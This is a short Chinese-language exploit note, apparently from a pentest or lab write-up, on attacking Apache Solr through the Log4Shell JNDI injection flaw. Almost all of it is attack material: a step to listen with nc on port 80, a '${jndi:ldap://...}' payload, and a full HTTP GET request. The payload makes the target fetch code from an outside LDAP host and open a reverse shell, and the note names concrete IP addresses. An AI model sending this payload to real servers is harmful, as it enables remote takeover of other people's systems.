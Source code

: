 

nc监听80端口

![image-20240607092837052](assets/image-20240607092837052.png)



发包：payload:`/solr/admin/cores?action=${jndi:ldap://47.116.182.94:389/Basic/ReverseShell/42.194.233.78/80} `

```
GET /solr/admin/cores?action=${jndi:ldap://47.116.182.94:389/Basic/ReverseShell/42.194.233.78/80} HTTP/1.1
Host:3.138.93.235:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```
